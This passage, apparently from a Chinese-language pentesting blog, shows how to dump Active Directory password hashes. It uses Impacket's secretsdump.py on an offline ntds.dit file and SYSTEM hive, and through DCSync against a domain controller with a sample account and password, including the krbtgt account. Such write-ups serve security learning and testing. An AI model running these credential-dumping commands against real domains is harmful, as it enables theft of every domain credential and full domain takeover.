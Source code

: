 ```
secretsdump.py -ntds "Desktop\temp\Active Directory\ntds.dit" -system Desktop\temp\registry\SYSTEM local
```

![image-20201122180046820](/assets/img/image-20201122180046820.png)





## 利用DCSync获取

详细原理见： [DCsync原理及利用.md](/posts/DCsync原理及利用) 

**impacket**

```
secretsdump.py -just-dc-user krbtgt ring2/win10:Test1234@ringdc-pc
```

![image-20201122175115415](/assets/img/image-20201122175115415.png)


```
secretsdump.py -just-dc ring2/win10:Test1234@192.168.240.142
```
